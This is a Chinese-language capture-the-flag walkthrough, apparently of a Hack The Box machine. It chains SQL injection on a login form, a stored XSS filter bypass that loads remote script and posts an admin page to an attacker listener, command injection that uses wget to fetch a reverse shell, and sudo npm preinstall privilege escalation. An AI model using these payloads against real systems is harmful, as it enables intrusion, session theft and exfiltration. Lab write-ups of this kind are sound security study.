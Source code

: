 ## 解题流程


1\. 在登录那里可以对用户名进行爆破，当输入为`username`的时候，返回真实的用户名

解完题后从从源码进行分析：
```
var query = 'SELECT id, username, password, active FROM users WHERE (active=1 AND (username = "' + req.body.username +'"))';
```
正常输入`username`会返回`False`，但是这里是`sqlite`，当输入的值等于列名的时候，返回了`true`

```sql
┌──(kali㉿kali)-[~]
└─$ sqlite3                                                                                                               127 ⨯
SQLite version 3.38.1 2022-03-12 13:37:29
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open test.db
sqlite> CREATE TABLE users (
   ...> id INTEGER PRIMARY KEY AUTOINCREMENT,
   ...> username TEXT,
   ...> password TEXT,
   ...> active TINYINT(1));
sqlite> INSERT INTO users VALUES(NULL, "RickA", "password", 1);
sqlite> select * from users;
1|RickA|password|1
sqlite> select id, username, password, active from users where (active=1 AND (username="username"));
1|RickA|password|1
sqlite> select id, username, password, active from users where (active=1 AND (username="username1"));

```

在`mysql`中，则返回`false`

```
MariaDB [holiday]> select id, username, password, active from users where (active=1 AND (username="username"));
Empty set (0.001 sec)

MariaDB [holiday]> describe users;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(11)      | NO   | PRI | NULL    |       |
| username | varchar(255) | YES  |     | NULL    |       |
| password | varchar(255) | YES  |     | NULL    |       |
| active   | int(11)      | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
4 rows in set (0.001 sec)
```

所以这里造成了当用户输入相同的列名的时候，返回真


2\. 使用`sqlmap`扫描登录数据包，判断是否有注入

```
+----+---+--------+----------------------------------+----------+
| id | 1 | active | password                         | username |
+----+---+--------+----------------------------------+----------+
| 1  | 1 | 1      | fdc8cd4cff2c19e0d1022e78481ddf36 | RickA    |
+----+---+--------+----------------------------------+----------+
```

3\. 在`note`留言界面，管理员会对这些留言进行批准才能显示，所以这里明显是一个存储`xss`

过滤规则如下，看到白名单就是`img`标签的`src`属性

```js
var xssFilter = new xss.FilterXSS({
  whiteList: {
    img: ['src']
  },
  onTagAttr: function (tag, name, value, isWhiteAttr) {
    if (name === 'src' && isWhiteAttr) return name + '=' + value.replace(/["' ]/g, '') + '';
    return null;
  }
});
```


4\. 尝试一些字符后，对`<>`进行了过滤，但是输入`<img>`的时候就不会过滤，所以使用`<img>`的攻击向量配合`eval`函数。

```js
<img src="x/><script>eval(String.fromCharCode(payload))</script>">

// payload
document.write('<script src="http://1.2.3.4/evil.js"></script>');

// evil.js
var url = "http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65";
$.ajax({method: "GET", url: url,success: function(data){$.post("http://10.10.14.8:8000/", data)}});

// nc -v -lp 8000
```

5\. 当提交后批准通过，则可以收到管理员发送过来的页面数据

```html
<input type="hidden" name="cookie" value="connect.sid=s:81a51910-d6b8-11ec-9cac-a504fac79240.DAng57xUlXIka83qTfn8CLQbgB4k2FjOyh/UvjEeoVs
```

6\. 使用`cookie`登录成功，在`export`接口存在命令注入

源码如下：

```js
exec('sqlite3 hex.db SELECT\\ *\\ FROM\\ ' + filteredTable, function(err, stdout, stderr) {
      res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate');
      res.header('Expires', '-1');
      res.header('Pragma', 'no-cache');
      res.attachment('export-' + req.query.table + '-' + (+new Date()));
      res.send(stdout);
    })
```
代码中使用了`exec`来执行命令，实际上会执行以下命令
```
spawnargs: [ '/bin/sh', '-c', 'sqlite3 test.db select\\ *\\ from\\ table' ]
```

```
%2f%26whoami
```
当尝试其他命令时候，存在过滤
```
Invalid table name - only characters in the range of [a-z0-9&\s\/] are allowed
```

直接使用`wget`下载一个反弹`shell`并执行，对`ip`地址进行进制转换
```
%2f%26wget%20168431112/reverse
```

6\. 得到`shell`后在当前用户目录下得到`user.txt`

7\. 执行`sudo -l`，可以得到当前用户能够以管理员权限运行`sudo npm i`，也就是能够安装一个`npm`包，可以使用`package.json`的`script`功能执行命令

```json
{
  "name": "npm-package-example",
  "version": "0.0.0-development",
  "description": "This is a simple npm package example",
  "main": "dist/index.js",
  "scripts": {
      "preinstall": "cat /root/root.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt"
  },
  author: "xxx"
}
```

然后指定目录安装包

```
sudo npm i /path/to/packags.json/ --unsafe
```